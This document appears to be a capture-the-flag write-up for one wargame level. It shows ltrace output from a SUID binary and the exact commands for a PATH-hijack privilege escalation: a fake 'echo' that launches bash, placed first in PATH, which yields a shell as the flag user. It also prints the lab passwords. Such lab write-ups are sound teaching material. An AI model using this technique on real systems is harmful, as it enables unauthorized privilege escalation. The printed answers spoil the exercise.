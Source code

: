 # LEVEL 03

> [!TIP]
> user: `level03` <br>
> pass: `kooda2puivaav1idi4f57q8iq`

## STEP 01

In the home folder of the **level03**, the is a **level03** binary that have
SUID bit set, and belong to the **flag03**

Launching the binary with **ltrace**, give us a little more information

```bash
ltrace ./level03
#__libc_start_main(0x80484a4, 1, 0xbffffbe4, 0x8048510, 0x8048580 <unfinished ...>
#getegid()                                                  = 2003
#geteuid()                                                  = 2003
#setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)        = 0
#setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)        = 0
#system("/usr/bin/env echo Exploit me"
```

> [!NOTE]
> what's important here is that the binary launch an execve with no check for
> the echo command

## STEP 02

Let's prepare our exploitation

1. First, create a dir in `/tmp` folder
   - `mkdir /tmp/pix && cd /tmp/pix`
1. Now create an **echo** file that will replace the echo command in the binary
    - `echo bash > /tmp/pix/echo && chmod +x /tmp/pix/echo`
1. Setup the **PATH** env variable to make the `/tmp/pix` folder prevent from
   all other
    - `export PATH=${PWD}:${PATH}`
1. From here, in the `/tmp/pix` folder, launch the `/home/user/level03/level03`
   file

TADA, you now have a shell as **flag03**

> [!IMPORTANT]
> the password for the next level is `qi0maab88jeaj46qoumi7maus`
